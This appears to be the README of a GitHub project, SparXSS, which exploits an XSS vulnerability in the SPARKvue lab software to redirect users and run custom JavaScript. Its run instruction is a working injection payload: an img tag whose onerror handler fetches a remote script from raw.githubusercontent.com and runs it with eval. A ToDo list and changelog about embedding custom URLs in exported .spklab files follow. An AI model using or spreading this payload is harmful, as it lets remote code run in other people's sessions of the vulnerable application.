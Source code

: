 ## A JS Script For Redirection And Custom Javascript Execution For The SPARKvue XSS Vulnerability Found By ohonbob

Run it using:
```
<img src=# onerror='fetch("https://raw.githubusercontent.com/Amukerd/SparXSS/main/sparxss.js").then(r=>r.text()).then(c=>eval(c))'>
```

The If Statement In The First Line Was Because It Would Execute Multiple Times While I Was Testing It

## ToDo
- ~~Make Icon's Show up for Every URL~~
- Make the custom URL's stay when you export the .spklab file (close to getting this working)

## Changelog

10/24/2023
- The checkpoint2 and getFaviconUrl functions have been combined into 1 function (only checkpoint2 now)
- The Hyperlink URL can now have https:// when it could not before
- Uploaded New SparXSS.spklab file to reflect the updates made so far
